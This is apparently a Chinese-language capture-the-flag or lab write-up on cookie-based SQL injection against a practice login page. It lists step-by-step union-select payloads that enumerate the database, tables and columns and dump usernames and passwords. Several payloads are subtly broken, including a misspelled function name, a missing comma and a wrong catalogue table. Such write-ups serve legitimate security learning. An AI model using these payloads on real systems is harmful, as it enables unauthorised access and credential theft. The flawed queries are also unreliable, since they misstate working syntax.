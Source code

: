 
## 步骤

1.进行正常登录，登录后的页面如图所示

[![0j3LE8.jpg](https://s1.ax1x.com/2020/10/18/0j3LE8.jpg)](https://imgchr.com/i/0j3LE8)

使用bp抓包发现http请求头部有cookie字段

[![0j8CD0.jpg](https://s1.ax1x.com/2020/10/18/0j8CD0.jpg)](https://imgchr.com/i/0j8CD0)

2.尝试从cookie进行注入，单引号测试

`uname=admin'`

发现报错信息，证明有注入点存在

[![BplON6.jpg](https://s1.ax1x.com/2020/10/20/BplON6.jpg)](https://imgchr.com/i/BplON6)

然后构造payload

`uname=admin' and 1=1 --+显示正常`

`uname=admin' and 1=2 --+显示错误`


那么我们就可以进行下一步的行动了

3.先测试显示位

`uname=admin' union select 1,2,3`

显示正常


也可以

`uname=admin' order by 4 --+`

4.爆数据库

记住给的uname值一定要是数据库中不存在的，否则就会一直返回那条查询出来的结果

`uname=-admin' union select 1,2,database() --+`

[![Bp3uRO.jpg](https://s1.ax1x.com/2020/10/20/Bp3uRO.jpg)](https://imgchr.com/i/Bp3uRO)

5.爆表名

`uname=-admin' union select 1,2,group_concat('|',table_name'|') from information_schema.columns where table_schema=databae() --+`

其余的步骤就同最初几关非常相似了

`uname=-admin' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

`uname=-admin' union select 1,2,group_concat('|',username,'~',password,'|') from users --+`

结果成功回显
***

# 收获
## 错误信息
